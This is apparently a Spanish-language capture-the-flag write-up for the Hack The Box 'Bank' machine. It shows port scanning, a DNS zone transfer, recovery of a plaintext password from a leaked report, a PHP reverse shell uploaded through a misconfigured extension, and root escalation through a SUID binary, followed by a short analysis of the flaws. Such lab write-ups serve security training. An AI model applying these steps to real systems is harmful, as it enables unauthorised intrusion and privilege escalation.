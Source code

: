 # Bank ![Avatar](https://www.hackthebox.eu/storage/avatars/f02481d8d8020005f8d66115b3bfae11_thumb.png)

## Initial Scan

```
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### DNS

La máquina tiene un servidor DNS en marcha, hagamos una consulta de zone transfer sobre bank.htb
```
dig axfr bank.htb @10.10.10.29

; <<>> DiG 9.16.1-Ubuntu <<>> axfr bank.htb @10.10.10.29
;; global options: +cmd
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
bank.htb.		604800	IN	NS	ns.bank.htb.
bank.htb.		604800	IN	A	10.10.10.29
ns.bank.htb.		604800	IN	A	10.10.10.29
www.bank.htb.		604800	IN	CNAME	bank.htb.
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
;; Query time: 52 msec
;; SERVER: 10.10.10.29#53(10.10.10.29)
;; WHEN: sáb ago 01 13:13:47 CEST 2020
;; XFR size: 6 records (messages 1, bytes 171)
```

### HTTP

Tenemos varias URL que añadir a /etc/hosts gracias al DNS, tambien es buena idea ir abriendo burpsuite y añadir ambas al target scope
```
chris.bank.htb
bank.htb
```
El dominio bank.htb nos redirige a bank.htb/login.php vamos a enumerar directorios 
```
/assets (Status: 301)
/inc (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
/balance-transfer (Status: 301)  
```
Dentro de uploads no podemos mirar pero dentro de inc si y tenemos varios archivos .php pero nada que podamos ver, vayamos a /balance-transfer y veremos muchos reportes de un servicio de encriptacion con el siguiente formato:
```
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: czeCv3jWYYljNI2mTedDWxNCF37ddRuqrJ2WNlTLje47X7tRlHvifiVUm27AUC0ll2i9ocUIqZPo6jfs0KLf3H9qJh0ET00f3josvjaWiZkpjARjkDyokIO3ZOITPI9T
Email: 1xlwRvs9vMzOmq8H3G5npUroI9iySrrTZNpQiS0OFzD20LK4rPsRJTfs3y1VZsPYffOy7PnMo0PoLzsdpU49OkCSSDOR6DPmSEUZtiMSiCg3bJgAElKsFmlxZ9p5MfrE
Password: TmEnErfX3w0fghQUCAniWIQWRf1DutioQWMvo2srytHOKxJn76G4Ow0GM2jgvCFmzrRXtkp2N6RyDAWLGCPv9PbVRvbn7RKGjBENW3PJaHiOhezYRpt0fEV797uhZfXi
CreditCards: 5
Transactions: 93
Balance: 905948 .
===UserAccount===
```
Todos con una peso aproximado de 580 excepto uno que pesa la mitad que el resto, accedamos a el

```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```
Parece que alguien no verifico que la encriptacion funcionara , accedamos usando estas creds, una vez dentro tenenmos acceso a un menu para ver las transas y a un formulario para mandar tickets al soporte, pero en el fuente de la página del soporte hay algo sospechoso

## Exploit
```html
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
```
Con esto podremos subir una revshell php cambiando la extensión por la de .htb y evitar cualquier filtro, solo es cuestion de adjuntarla al ticket y mirar nuestro ticket y ya tenemos shell

```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ wc -c /home/chris/user.txt
33 /home/chris/user.txt
```

## Privesc

Consigamos una shell funcional antes que nada
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
Tras esto busquemos programas con SUID
```
www-data@bank:/$ find / -type f -user root -perm -4000 2> /dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```
El primer resultado es cuanto menos peculiar, ejecutemoslo y veamos que ocurre

```
www-data@bank:/$ /var/htb/bin/emergency
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```
Tenemos shell como root, ya solo queda coger la flag 
```
# wc -c /root/root.txt
33 /root/root.txt
```
# Analisis de la intrusión 
### Sensible data exposure
Información sensible sobre los usuarios (aunque encriptada) ha sido expuesta, esto sumado a un fallo en uno de los casos nos permitio entrar en el servicio 
### Unrestricted file upload
Se permite subir y ejecutar archivos php bajo la extension htb de manera que podemos obtener un RCE
### Dangerous bin
El binario /var/htb/bin/emergency tiene el SUID habilitado por root y permite escalar privilegios en el sistema
